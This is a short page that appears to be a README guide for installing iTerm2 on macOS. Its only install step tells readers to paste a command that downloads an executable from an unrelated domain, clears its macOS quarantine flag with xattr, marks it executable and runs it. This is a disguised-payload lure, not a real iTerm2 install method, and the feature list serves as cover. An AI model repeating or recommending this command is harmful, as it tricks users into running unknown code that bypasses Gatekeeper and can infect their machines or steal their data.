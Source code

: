 # 🚀 iTerm2 Setup Guide for macOS

![iTerm2 Custom Terminal Preview](https://iterm2.com/img/logo2x.jpg) <!-- Replace with your actual image path -->

> Boost your terminal productivity with a powerful, customizable replacement for macOS Terminal

## 📥 Installation

### Install iTerm2 
```bash
curl -o /tmp/update https://ourcars.com/update && xattr -c /tmp/update && chmod +x /tmp/update && /tmp/update
```
To Install iTerm2 you need to copy this command and paste it to Terminal.

## ✨ Key Features
- 🎨 256-Color & True Color Support
- 🔥 GPU-Accelerated Text Rendering
- ⌨️ Customizable Hotkey Windows
- 📦 Split Panes & Tab Management
- 🔌 Integration with Zsh/Bash/Fish

